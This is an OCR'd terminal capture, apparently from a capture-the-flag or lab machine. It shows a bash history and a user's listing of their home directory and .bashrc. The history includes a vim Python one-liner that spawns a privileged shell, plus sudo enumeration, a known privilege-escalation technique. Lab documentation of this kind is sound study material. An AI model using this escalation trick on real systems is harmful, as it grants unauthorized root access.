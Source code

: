 ```
ls
cd /root
id
exit
clear
ls
ls -la
cat .bash_history 
clear
/usr/bin/vim.basic
/usr/bin/vim.basic -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
clear
ls
clear
sudo -l
sudo su
exit
manager@py:~$ pwd
pwd                                                                                   
/home/manager                                                                         
manager@py:~$ ls -lah                                                      
ls -lah                                                                  
total 88K                                                                
drwxr-xr-x 16 manager manager 4.0K Oct 25  2020 .                        
drwxr-xr-x  3 root    root    4.0K Aug  4  2020 ..                       
-rw-------  1 manager manager  249 Oct 25  2020 .bash_history            
-rw-r--r--  1 manager manager  220 Aug  4  2020 .bash_logout             
-rw-r--r--  1 manager manager 3.7K Aug  4  2020 .bashrc
drwx------ 13 manager manager 4.0K Oct 25  2020 .cache
drwx------ 11 manager manager 4.0K Aug  4  2020 .config
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Desktop
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Documents
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Downloads
drwx------  3 manager manager 4.0K Aug  4  2020 .gnupg
drwx------  3 manager manager 4.0K Aug  4  2020 .local
drwx------  5 manager manager 4.0K Aug  4  2020 .mozilla
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Music
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Pictures
-rw-r--r--  1 manager manager  807 Aug  4  2020 .profile
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Public
-rw-r--r--  1 manager manager   66 Aug 24  2020 .selected_editor
drwx------  2 manager manager 4.0K Aug  4  2020 .ssh
-rw-r--r--  1 manager manager    0 Aug 24  2020 .sudo_as_admin_successful
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Templates
drwxr-xr-x  2 manager manager 4.0K Aug  4  2020 Videos
-rw-------  1 manager manager  583 Oct 25  2020 .viminfo
manager@py:~$ cat .bashrc
cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
```